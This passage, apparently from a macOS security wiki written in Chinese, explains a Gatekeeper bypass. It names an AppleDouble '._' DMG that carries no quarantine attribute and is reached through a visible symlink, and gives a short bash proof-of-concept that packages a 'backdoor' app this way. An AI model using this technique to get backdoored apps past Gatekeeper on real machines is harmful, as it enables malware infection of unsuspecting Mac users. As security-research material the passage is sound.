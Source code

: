 能够创建一个不会设置隔离属性的文件，这样就有可能绕过Gatekeeper。技巧是使用AppleDouble命名约定（以`._`开头）创建一个DMG文件应用程序，并创建一个可见文件作为对这个没有隔离属性的隐藏文件的符号链接。当执行dmg文件时，由于它没有隔离属性，它将绕过Gatekeeper。

```bash
# Create an app bundle with the backdoor an call it app.app

echo "[+] creating disk image with app"
hdiutil create -srcfolder app.app app.dmg

echo "[+] creating directory and files"
mkdir
mkdir -p s/app
cp app.dmg s/app/._app.dmg
ln -s ._app.dmg s/app/app.dmg

echo "[+] compressing files"
aa archive -d s/ -o app.aar
```

#### 防止隔离 xattr

在“.app”捆绑包中，如果未添加隔离 xattr，则执行时**Gatekeeper 将不会被触发**。

<img src="../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt="" data-size="original">



</details>
